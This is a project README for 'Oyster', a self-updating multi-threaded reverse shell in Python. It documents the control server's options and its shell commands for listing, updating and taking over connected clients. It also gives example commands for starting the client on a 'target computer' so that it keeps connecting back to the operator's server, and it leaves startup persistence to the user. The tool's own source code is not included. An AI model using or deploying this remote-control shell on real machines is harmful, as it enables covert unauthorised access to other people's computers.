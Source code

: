 ```python
 .oOOOo.
.O     o.
O       o               O
o       O              oOo
O       o O   o .oOo    o   .oOo. `OoOo.
o       O o   O `Ooo.   O   OooO'  o
`o     O' O   o     O   o   O      O
 `OoooO'  `OoOO `OoO'   `oO `OoO'  o
              o
           OoO'
```

Oyster is a lightweight multi-threaded reverse shell written in python 
3.5.  The server can push updates to the clients, and the clients will
overwrite/restart themselves.

I wrote this after finding an example reverse shell on the thenewboston 
youtube channel.  I saw some things I wanted to improve, so that's what 
I attempted to do.  The clients will continuously try to make a 
connection with the server.

## Control Server

Start `server.py` from the command line.  Here are the keyword arguments 
used for `server.py`:

```
host        - Host IP address.
port        - Host port.
recv_size   - Buffer size for receiving and sending data.
listen      - Maximum number of queued connections.
bind_retry  - How many times to retry binding the socket to the port.
```

Commands for the `Oyster` shell are:

```
list                        -   List the connected clients.
update all                  -   Update all the connected clients using `update.py`.  Clients will overwrite themselves and reboot themselves.
use {client_ip}             -   Use a client connection.  {client_ip} can be found by running the `list` command.
quit                        -   Shut everything down.
```

### `use` Command

The `use` command will set the current connection to the given ip.  Once
this happens, it will drop you into a shell for that connection.  To get
out of the connections shell, run the `quit` command.  This will take 
you back to the `Oyster` shell.

### Example

All of the arguments provided below are the defaults except `host`, 
which is a blank string as the default.

```
python3 server.py host=0.0.0.0 port=6667 recv_size=1024 listen=10 bind_retry=5
```

## Client

Start `client.py` on the target computer.  It's up to the user to figure
out how to get this to run on startup or whatever.  Here are startup
arguments.

```
host
port
recv_size
```

### Example

```
python3 client.py host=10.0.0.215 port=6667 recv_size=1024
```
